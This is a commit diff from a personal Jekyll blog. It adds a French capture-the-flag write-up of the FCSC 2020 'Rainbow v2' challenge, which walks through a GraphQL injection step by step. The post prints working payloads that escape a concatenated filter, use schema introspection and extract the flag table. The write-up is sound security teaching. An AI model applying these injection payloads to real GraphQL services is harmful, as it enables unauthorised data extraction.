

Before and after one commit to ix-56h/ix-56h.github.io, a Jekyll site: the page built from tags.md, in a window 1280 px wide and 1400 px high, scrolled down 619 px. Shown: the whole window, without its empty margins (177-817 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
New post

````diff
--- a/_posts/FCSC-rainbow-v1-WU/2020-05-17-FCSC-rainbow-v1-wu.md
+++ b/_posts/FCSC-rainbow-v1-WU/2020-05-17-FCSC-rainbow-v1-wu.md
@@ -1,7 +1,7 @@
 ---
 title: FR - FCSC 2020 - Write Up - Rainbow v1
 date: 2020-05-17 10:32:00 +07:00
-tags: [francais, FCSC, CTF, WU, Web, php]
+tags: [francais, FCSC, CTF, WU, Web, php, GraphQL]
 description: Write Up du challenge Rainbow v1 du FCSC 2020.
 ---
 
@@ -14,7 +14,7 @@ On remarque rapidement que le paramètre est en Base64, en décodant, on découv
 ```js
 { allCooks (filter: { firstname: {like: "%%"}}) { nodes { firstname, lastname, speciality, price }}}
 ```
-Je ne connaissais pas ce format, en cherchant les erreurs que j'ai fait proc sur google, je découvre `GraphSQL` (oui je sais, je n'ai pas fait de web depuis assez longtemps).
+Je ne connaissais pas ce format, en cherchant les erreurs que j'ai fait proc sur google, je découvre `GraphQL` (oui je sais, je n'ai pas fait de web depuis assez longtemps).
 Ni une ni deux, je suis parti à la recherche d'exploit de GraphSQL.
 
 ## Exploit basique
--- /dev/null
+++ b/_posts/FCSC-rainbow-v2-WU/2020-05-18-FCSC-rainbow-v2-wu.md
@@ -0,0 +1,98 @@
+---
+title: FR - FCSC 2020 - Write Up - Rainbow v2
+date: 2020-05-18 10:20:00 +07:00
+tags: [francais, FCSC, CTF, WU, Web, php, GraphQL]
+description: Write Up du challenge Rainbow v2 du FCSC 2020.
+---
+
+## Rainbow v2
+On découvre le même site que le précédent, à la différence près qu'il est sécurisé (o/).
+On remarque que la requête est différente, ici, on ne construis pas nous même la requete, on y donne simplement une valeur qui sera concaténé à la requête.
+
+Testons quelques valeurs et analysons le résultat :
+
+##### Quelques tests plus tard...
+```js
+search=%00
+```
+Result : `list all datas`
+
+```js
+search='
+```
+Result : `Nothing`
+
+```js
+search="
+```
+Result :
+```js
+{"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":52}]}]}
+```
+
+#### Diagnostique
+On peux facilement imaginer que la requete est la même que le challenge précédent, testons des injections :
+```js
+{ allCooks (filter: { firstname: {like: "%%"}}) { nodes { firstname, lastname, speciality, price }}}
+```
+
+Après diverses tentatives, j'ai remarqué que cette fois-ci, on peut chercher par firstname ET lastname...
+Modifions la requête en conséquence :
+```js
+{ allCooks (
+filter: {
+  or: [
+    {lastname: {like: "%INJECT_HERE%"}},
+    {firstname: {like: "%INJECT_HERE%"}}
+  ],
+ }) { nodes { firstname, lastname, speciality, price }}}
+```
+
+### Exploitation !
+Après avoir fait proc diverses erreurs, j'ai pu construire mon payload :
+```js
+%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}allCooks(filter:{or:[{lastname:{like:"%
+```
+On remarque une erreur étrange :
+```
+[{"message":"Fields \"allCooks\" conflict because they have differing arguments. Use different aliases on the fields to fetch both if this was intentional."
+```
+La raison pour laquelle l'erreur est proc, c'est à cause de la redondance de allCooks, ajoutons un commentaire :
+```js
+%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}#
+```
+Résultat :
+```
+{"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":2,"column":1}]}]}
+```
+Une syntax error... Voyons ce que donne cette requête au complet :
+
+```js
+{
+  allCooks (filter: {
+        or: [
+            {lastname: {like:"%%"}}
+            {firstname: {like:"%%"}}
+        ]
+      }
+    )
+    {nodes { firstname}}
+    __schema{types{name,fields{name}}}#allCooks(filter:{or:[{lastname:{like:"%%"}}{firstname:{like:"%%"}}],}){nodes{firstname,lastname,speciality,price}}}
+```
+
+On remarque vite le problème, il manque la fermeture du premier bracket :
+```js
+%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}}#
+```
+
+Une fois éxecutée, la requête nous livre les informations sensibles du schema dont allFlagNotTheSameTableNames et flagNotTheSameFieldName.
+On adapte la requète pour lister les flags :
+```js
+%"}}{firstname:{like:"%%"}}]}){nodes{firstname}} allFlagNotTheSameTableNames (filter: { flagNotTheSameFieldName: {like: "%%"}}) { nodes { flagNotTheSameFieldName}}}#
+```
+
+#### Set as finished
+Et hop :
+```js
+{"data":{"allCooks":{"nodes":[{"firstname":"Thibault"},{"firstname":"Antoinette"},{"firstname":"Bernard"},{"firstname":"Trycia"},{"firstname":"Jaleel"},{"firstname":"Isaac"},{"firstname":"Delbert"},{"firstname":"Paula"},{"firstname":"Teagan"},{"firstname":"Garfield"},{"firstname":"Elisabeth"},{"firstname":"Casey"},{"firstname":"Consuelo"},{"firstname":"Luciano"},{"firstname":"Piper"},{"firstname":"Jace"}]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
+```
````
